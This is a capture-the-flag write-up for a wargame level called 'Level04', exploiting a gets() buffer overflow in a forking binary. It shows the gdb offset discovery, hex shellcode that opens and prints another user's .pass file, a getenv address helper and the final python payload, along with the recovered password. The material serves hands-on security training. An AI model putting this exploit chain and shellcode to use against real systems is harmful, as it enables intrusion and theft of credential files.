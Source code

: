 # Level04

This program has an unprotected `gets()` vunerable to a **buffer overflow attack** and **shellcode** redirection. However most of the execution takes place in a child process started with an early `fork()`.		

In order to debug, some additional options have to be used to follow the child process:		
- ltrace -f		
- (gdb) set follow-fork-mode child		

Using a buffer overflow pattern generator we can find the `EIP backup` offset		
```bash
gdb level04
(gdb) set follow-fork-mode child
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/users/level04/level04
[New process 2067]
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 2067]
0x41326641 in ?? ()
```
`0x41326641` -> Offset: 156

A `ptrace()` call checks for use of `exec()` so we have to use a **shellcode** without it. This version does `open` `read` and `write` with the path specified at the end ([source](http://shell-storm.org/shellcode/files/shellcode-73.php)).			
We can store our **shellcode** in an environment variable:
```bash
export SHELLCODE=$'\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass'
```

Next we must find the address of our shellcode using a simple program:
```c
//getenv.c:

#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[]) {
    printf("%p\n", getenv("SHELLCODE"));
}
```
```bash
gcc -m32 getenv.c
./a.out
0xffffd87a

python -c "print 156 * 'a' + '\xff\xff\xd8\x7a'[::-1]" | ./level04
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
